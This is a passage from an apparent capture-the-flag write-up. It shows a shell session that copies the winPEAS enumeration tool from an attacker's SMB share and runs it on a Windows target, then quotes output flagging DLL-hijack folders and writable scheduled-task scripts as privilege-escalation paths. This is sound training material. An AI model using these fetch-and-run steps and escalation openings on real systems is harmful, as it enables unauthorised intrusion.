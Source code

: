 On the box:

```cmd
C:\Windows>cd %temp%
cd %temp%

C:\Users\jason\AppData\Local\Temp>copy \\10.10.16.211\share\winPEASany.exe .
copy \\10.10.16.211\share\winPEASany.exe .
        1 file(s) copied.

C:\Users\jason\AppData\Local\Temp>winPEASany.exe
winPEASany.exe
ANSI color bit for Windows is not set. If you are execcuting this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
```

Nice!

### WinPEAS Highlights

It shows where the SMB files are stored:

```cmd
    h'eed(1184)[C:\Users\jason\AppData\Roaming\heedv1\__update__\h'eed.exe] -- POwn: jason
    Permissions: jason [AllAccess]
    Possible DLL Hijacking folder: C:\Users\jason\AppData\Roaming\heedv1\__update__ (jason [AllAccess])
    Command Line: C:\Users\jason\AppData\Roaming\heedv1\__update__\h'eed.exe --updated --force-run
```

And found a few standard things such as unquoted paths. The scheduled processes told us a bit about how the node application is deployed:

```cmd
[+] Scheduled Applications --Non Microsoft--
   [?] Check if you can modify other users scheduled binaries https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries
    (ATOM\Administrator) SoftwareUpdates: C:\Users\jason\appdata\roaming\cache\run.bat 
    Permissions file: jason [WriteData/CreateFiles AllAccess]
    Permissions folder(DLL Hijacking): jason [WriteData/CreateFiles AllAccess]
    Trigger: At log on of ATOM\jason
    
   =================================================================================================

    (ATOM\Administrator) UpdateServer: C:\Users\jason\appdata\roaming\cache\http-server.bat 
    Permissions file: jason [WriteData/CreateFiles AllAccess]
    Permissions folder(DLL Hijacking): jason [WriteData/CreateFiles AllAccess]
    Trigger: At log on of ATOM\jason
    
   =================================================================================================
```
